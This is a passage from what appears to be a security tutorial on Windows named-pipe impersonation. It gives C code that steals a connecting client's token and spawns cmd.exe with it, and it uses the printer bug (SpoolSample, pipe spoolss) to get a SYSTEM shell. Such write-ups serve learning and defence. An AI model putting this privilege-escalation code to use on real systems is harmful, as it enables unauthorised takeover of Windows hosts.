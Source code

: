 ```c
    // open the current threads token
    HANDLE hToken;
    if (OpenThreadToken(GetCurrentThread(), MAXIMUM_ALLOWED, TRUE, &hToken)) {
        // duplicate token and save a reference in pNewToken
        HANDLE pNewToken;
        DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenImpersonation, &pNewToken)

        // Revert to self to re-gain SeImpersonate priv
        RevertToSelf();
        
        // start a process with our clients token
        STARTUPINFO si2;
        PROCESS_INFORMATION pi2;
        if (!CreateProcessWithTokenW(pNewToken, 0, L"C:\\Windows\\system32\\cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si2, &pi2)) {
            printf("[!] ERROR: Could not create process with token: %d\n", GetLastError());
        }
    }
}
```

Since for this example I will be using the printer bug (as implemented by https://github.com/leechristensen/SpoolSample) to coerce `SYSTEM` to authenticate to my pipe, I had to specify the pipe name `\\\\.\\pipe\\spoolss`, since this is what `MS-RPRN`, Microsofts [Print System Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1?redirectedfrom=MSDN), connects to.

Now we have all we need to get a `SYSTEM` shell using token impersonation: 

![](/spools.png)
